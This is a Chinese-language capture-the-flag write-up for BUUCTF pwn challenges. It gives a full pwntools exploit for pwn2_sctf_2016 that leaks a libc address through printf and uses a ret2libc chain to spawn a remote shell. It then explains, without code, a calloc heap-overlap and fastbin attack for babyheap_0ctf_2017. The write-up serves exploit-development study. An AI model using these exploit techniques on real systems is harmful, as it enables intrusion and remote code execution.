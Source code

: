 ```python
```
# buu025-pwn2_sctf_2016
这一题真是吃尽苦头，LibcSearcher不给力，找半天也没找到适合的libc（应该是libc6-i386_2.23_0ubuntu10_amd64，但是由于LibcSearcher连的是ubuntu官网，这个版本被删了，然后就找不到了。。。）。看着这道题没做出来实在是气，不过又看到了程序中有一个int 80，于是思考能不能用系统调用解决问题。发现很难，因为给的gadget都是inc，执行完vuln函数之后eax,ebx,edx都是很小的值，总不可能一个inc执行几十万次吧？
查看了下gadget，ebx,edi,esi,ebp倒是能直接控制，对于eax,ecx,edx还是要费很多心思。
后来给用pip装的LibcSearcher卸了换上[国人写的](https://github.com/lieanu/LibcSearcher)就好了。果然还是国人给力o(￣▽￣)ｄ
exp：

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29855)
elf = ELF('./pwn')

def read_anyaddr(addr):
	io.sendlineafter(b'want me to read? ', b'-1')
	io.sendlineafter(b'bytes of data!', cyclic(0x2C + 4) + p32(elf.plt['printf']) + p32(elf.symbols['vuln']) + p32(addr))
	content = io.recvuntil(b'How', drop=True)
	return len(content)

io.sendlineafter(b'How many bytes do you want me to read? ', b'-1')
io.sendlineafter(b'bytes of data!', cyclic(0x2C + 4) + p32(elf.plt['printf']) + p32(elf.symbols['vuln']) + p32(elf.got['printf']))
io.recvuntil(p32(elf.got['printf']) + b'\n')

# io.recv(4)
printf = u32(io.recv(4))

libc = LibcSearcher('printf', printf)
print(hex(printf))
base = printf - libc.dump('printf')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

print(hex(base))
print(hex(sys))
print(hex(binsh))

io.sendline(b'-1')
io.sendlineafter(b'bytes of data!', cyclic(0x2C + 4) + p32(sys) + p32(binsh) + p32(binsh))

io.interactive()
```
# buu026-babyheap_0ctf_2017
第一道堆题。
**解法：unsorted bin overlapping chunks + fastbin attack**
提供了分配chunk、填充chunk、释放chunk、打印chunk内容4个功能。其中填充chunk功能没有进行边界检查，可以产生堆溢出：
![](https://img-blog.csdnimg.cn/819fff57a2e84971a375beb1be6ffc31.png)
简单看了一下，试了几下之后，发现这道题和前面所有题都截然不同，难度完全不是一个档次。
首先，这道题中**对于内存的分配使用的是calloc而非malloc函数**，这使得我们要想获得libc的加载地址必须首先进行堆块重叠后释放内部堆块，这样才能够通过读取外部堆块获取关键地址。另外，**本题的堆块大小保存在一个单独的数组之中，可读取的大小也在这里保存，因此直接在堆中修改chunk的size并不能增加我们读取的长度**。要想实现堆块的重叠就必须首先释放堆块，通过堆溢出修改堆块的size后分配回来。但这样的话，由于calloc的特性，堆块中的所有内容都将被抹除，也就无法获取到地址的值。因此，要保留地址的值，我们不能将这个堆块全部分配回来。要知道，虽然内部重叠堆块的prev_size和size等信息虽然被清零，但仍然能够读取后面的内容，所以我们选择将修改过大小的堆块部分分配回来，留下一个last_remainder堆块保留在原先的内部堆块的内部。这样就可以通过访问内部堆块获取到地址的值了。